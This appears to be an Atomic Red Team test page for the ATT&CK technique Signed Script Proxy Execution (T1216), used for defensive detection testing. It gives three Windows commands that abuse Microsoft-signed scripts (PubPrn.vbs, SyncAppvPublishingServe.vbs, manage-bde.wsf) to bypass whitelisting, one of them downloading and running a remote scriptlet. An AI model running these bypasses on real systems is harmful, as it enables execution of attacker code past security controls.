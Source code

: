 # T1216 - Signed Script Proxy Execution
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1216)
<blockquote>Scripts signed with trusted certificates can be used to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application whitelisting solutions that do not account for use of these scripts.

PubPrn.vbs is signed by Microsoft and can be used to proxy execution from a remote site. (Citation: Enigma0x3 PubPrn Bypass) Example command: <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>

There are several other signed scripts that may be used in a similar manner. (Citation: GitHub Ultimate AppLocker Bypass List)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PubPrn.vbs Signed Script Bypass](#atomic-test-1---pubprnvbs-signed-script-bypass)

- [Atomic Test #2 - SyncAppvPublishingServe Signed Script PowerShell Command Execution](#atomic-test-2---syncappvpublishingserve-signed-script-powershell-command-execution)

- [Atomic Test #3 - manage-bde.wsf Signed Script Command Execution](#atomic-test-3---manage-bdewsf-signed-script-command-execution)


<br/>

## Atomic Test #1 - PubPrn.vbs Signed Script Bypass
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_payload | A remote payload to execute using PubPrn.vbs. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216/src/T1216.sct|


#### Run it with `command_prompt`! 
```
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```



<br/>
<br/>

## Atomic Test #2 - SyncAppvPublishingServe Signed Script PowerShell Command Execution
Executes the signed SyncAppvPublishingServe script with options to execute an arbitrary PowerShell command.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A PowerShell command to execute. | string | Start-Process calc|


#### Run it with `command_prompt`! 
```
C:\windows\system32\SyncAppvPublishingServe.vbs ΓÇ£\n;#{command_to_execute}ΓÇ¥
```



<br/>
<br/>

## Atomic Test #3 - manage-bde.wsf Signed Script Command Execution
Executes the signed manage-bde.wsf script with options to execute an arbitrary command.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A command to execute. | Path | C:\Windows\System32\calc.exe|


#### Run it with `command_prompt`! 
```
set comspec=#{command_to_execute}
cscript manage-bde.wsf
```


#### Cleanup Commands:
```
set comspec=C:\Windows\System32\cmd.exe
```

<br/>
